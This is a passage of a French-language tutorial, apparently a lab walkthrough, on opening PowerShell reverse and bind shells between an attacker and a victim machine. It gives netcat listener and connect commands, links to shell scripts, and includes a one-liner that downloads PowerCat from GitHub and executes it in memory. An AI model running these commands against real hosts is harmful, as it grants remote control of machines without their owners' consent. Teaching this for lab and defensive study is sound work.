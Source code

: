 Création serveur d'écoute : `nc -nvlp [Port]`

![vmware_jc9gsm1jhd.png](/uploads/reconnaissance/vmware_jc9gsm1jhd.png){.align-center}

Monsieur Bob peut maintenant s'y connecter via PowerShell : 

![code_wxo9ylmdob.png](/uploads/reconnaissance/code_wxo9ylmdob.png)

Lien vers le script : [reverse_shell_powershell.ps1](/uploads/reconnaissance/reverse_shell_powershell.ps1)

![putuhprtpa.gif](/uploads/reconnaissance/putuhprtpa.gif){.align-center}

**Monsieur Capuche** dispose désormais d'un accès à une instance PowerShell sur le poste de **Monsieur Bob** :

![vmware_3elhudzoif.png](/uploads/reconnaissance/vmware_3elhudzoif.png){.align-center}
![vmware_hfeutgibnj.png](/uploads/reconnaissance/vmware_hfeutgibnj.png){.align-center}

## BIND SHELL

Dans notre cas, c'est **Monsieur Bob** qui créera le serveur d'écoute et liera son instance PowerShell. **Monsieur Capuche** s'y connectera à distance.

Création du serveur d'écoute avec liaison PowerShell : 

![code_kt93gezr8t.png](/uploads/reconnaissance/code_kt93gezr8t.png){.align-center}

Lien vers le script : [bind_shell_powershell.ps1](/uploads/reconnaissance/bind_shell_powershell.ps1)

![bwxeef6cs7.gif](/uploads/reconnaissance/bwxeef6cs7.gif){.align-center}

Monsieur Capuche n'a plus qu'à s'y connecter : `nc -nv [@IP] [Port]`

![mzkhgzlpce.gif](/uploads/reconnaissance/mzkhgzlpce.gif){.align-center}

# PowerCat

> PowerCat est l'adaptation de NetCat pour PowerShell. C'est un outil libre et puissant facilitant l'utilisation de PowerShell pour les cas qui nous intéressent.
> 
> Cet outil est réalisé par [besimorhino](https://github.com/besimorhino/powercat)
{.is-info}

Pour pouvoir utiliser PowerCat, il faut charger les fonctions dans l'instance PowerShell en cours. 

Vous pouvez télécharger le script et le charger manuellement depuis le dépôt github de son créateur ou directement via cette commande : 

`IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
`
